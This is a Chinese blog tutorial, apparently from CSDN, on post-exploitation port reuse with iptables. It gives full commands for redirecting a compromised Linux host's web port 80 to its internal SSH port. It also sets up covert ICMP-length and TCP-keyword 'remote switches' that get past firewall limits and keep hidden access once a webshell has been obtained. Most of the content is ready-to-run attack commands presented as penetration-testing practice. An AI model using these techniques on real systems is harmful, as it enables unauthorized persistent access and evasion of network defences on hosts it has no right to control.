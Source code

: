 **目录**

[iptables做端口复用](#t0 "iptables做端口复用")

[方案一：(根据源地址做端口复用)](#t1 "方案一：(根据源地址做端口复用)")

[方案二：(根据源地址源端口做端口复用)](#t2 "方案二：(根据源地址源端口做端口复用)")

[方案三：(利用ICMP协议做遥控开关)](#t3 "方案三：(利用ICMP协议做遥控开关)")

[方案四：(利用TCP协议做遥控开关)](#t4 "方案四：(利用TCP协议做遥控开关)")

* * *

iptables做端口复用
-------------

在做[渗透测试](https://so.csdn.net/so/search?q=%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95&spm=1001.2101.3001.7020)的过程中，我们经常会遇到下面这种问题。

目标主机是Linux系统，目标主机防火墙有严格的限制，只允许80端口的流量进入。我们拿到了目标主机的Webshell(root权限)并且拿到了[SSH](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)的账号密码。但是目标主机22端口只对内开放，所以必须得利用80端口做端口复用连接。

现在我们的思路就是利用Linux的[iptables](https://so.csdn.net/so/search?q=iptables&spm=1001.2101.3001.7020)防火墙的nat表的PREROUTING 链做端口复用，因为nat 表的 PREROUTING 链会在路由决策之前被处理。关于iptables：[Linux中的防火墙(Netfilter、Iptables、Firewalld)](https://xie1997.blog.csdn.net/article/details/82662026 "Linux中的防火墙(Netfilter、Iptables、Firewalld)")

![](https://img-blog.csdn.net/20180912185612240?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

**环境拓扑图如下：**

![](https://img-blog.csdnimg.cn/20200503100107718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200503095519669.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案一：(根据源地址做端口复用)

以下这条命令的作用是将来自192.168.10.13的访问80端口的流量都重定向到22端口。

```
iptables -t nat -A PREROUTING -p tcp -s 192.168.10.13 --dport 80 -j REDIRECT --to-port 22
```


![](https://img-blog.csdnimg.cn/2020050311413523.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

连接目标主机的80端口，会被重定向到22端口

![](https://img-blog.csdnimg.cn/20200503095620127.png)

但是这样做有一个问题就是，我们访问目标主机80端口的流量都会被转给22端口。如果我们不用访问该HTTP服务的话，这是一个好的办法。实战中，我们一般是用VPS连接不用访问HTTP服务，所以在实战中该方法用的比较多。

![](https://img-blog.csdnimg.cn/20200503105150904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案二：(根据源地址源端口做端口复用)

以下的命令是根据源地址源端口做端口复用，也就是只有来自192.168.10.13主机的33333端口的访问80端口的流量会被转给22端口。

```
iptables -t nat -A PREROUTING -p tcp -s 192.168.10.13 --sport 33333 --dport 80 -j REDIRECT --to-port 22
```


![](https://img-blog.csdnimg.cn/20200503114357831.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后我们本机先用socat将本地44444端口的流量以源端口33333访问192.168.10.129的80，然后我们SSH本地的44444端口即可。

```
nohup socat tcp-listen:44444,fork,reuseaddr tcp:192.168.10.129:80,sourceport=33333,reuseaddr &      
ssh -p 44444 root@127.0.0.1
```


![](https://img-blog.csdnimg.cn/20200503113706267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是这样做有一个问题就是不支持多连接 如果想创建两个 SSH 连接就会出错，因为本地的 33333 端口已经被第一个 SSH 连接占用了。

### 方案三：(利用ICMP协议做遥控开关)

利用 ICMP 做遥控开关。缺点在于如果目标在内网，你是无法直接 ping 到它的。

```
iptables -t nat -N LETMEIN             #创建端口复用链      
iptables -t nat -A LETMEIN -p tcp -j REDIRECT --to-port 22   #创建端口复用规则，将流量转发至 22 端口      
iptables -t nat -A PREROUTING -p icmp --icmp-type 8 -m length --length 1139 -m recent --set --name letmein --rsource -j ACCEPT  #开启开关，如果接收到一个长为 1139 的 ICMP 包，则将来源 IP 添加到加为letmein的列表中      
iptables -t nat -A PREROUTING -p icmp --icmp-type 8 -m length --length 1140 -m recent --name letmein --remove -j ACCEPT          #关闭开关，如果接收到一个长为 1140 的 ICMP 包，则将来源 IP 从 letmein 列表中去掉      
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN    #如果发现 SYN 包的来源 IP 处于 letmein 列表中，将跳转到 LETMEIN 链进行处理，有效时间为 3600 秒
```


![](https://img-blog.csdnimg.cn/20200503110912616.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
开启复用      
ping -c 1 -s 1111 192.168.10.129        #向目标发送一个长度为 1111 的 ICMP 数据包（加上包头28，总长度实际为1139）       
关闭复用      
ping -c 1 -s 1112 192.168.10.129        #向目标发送一个长度为 1112 的 ICMP 数据包（加上包头 28，总长度实际为 1140）
```


![](https://img-blog.csdnimg.cn/20200503111104838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案四：(利用TCP协议做遥控开关)

利用 tcp 数据包中的关键字做遥控开关，不怕目标在内网。

```
iptables -t nat -N LETMEIN       #创建端口复用链      
iptables -t nat -A LETMEIN -p tcp -j REDIRECT --to-port 22  #创建端口复用规则，将流量转发至 22 端口      
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT   #开启开关，如果接收到一个含有threathuntercoming的TCP包，则将来源 IP 添加到加为letmein的列表中      
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT      #关闭开关，如果接收到一个含有threathunterleaving的TCP包，则将来源 IP 从letmein的列表中移除      
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN    #如果发现 SYN 包的来源 IP 处于 letmein 列表中，将跳转到 LETMEIN 链进行处理，有效时间为 3600 秒
```


![](https://img-blog.csdnimg.cn/20200503113018237.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
开启复用，开启后本机到目标 80 端口的流量将转发至目标的 SSH      
echo threathuntercoming | socat - tcp:192.168.10.129:80       
关闭复用，关闭后，80 恢复正常：      
echo threathunterleaving | socat - tcp:192.168.10.129:80
```


![](https://img-blog.csdnimg.cn/20200503112935839.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[远程遥控 IPTables 进行端口复用](https://blog.csdn.net/weixin_43639741/article/details/89363461 "远程遥控 IPTables 进行端口复用")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10949 人正在系统学习中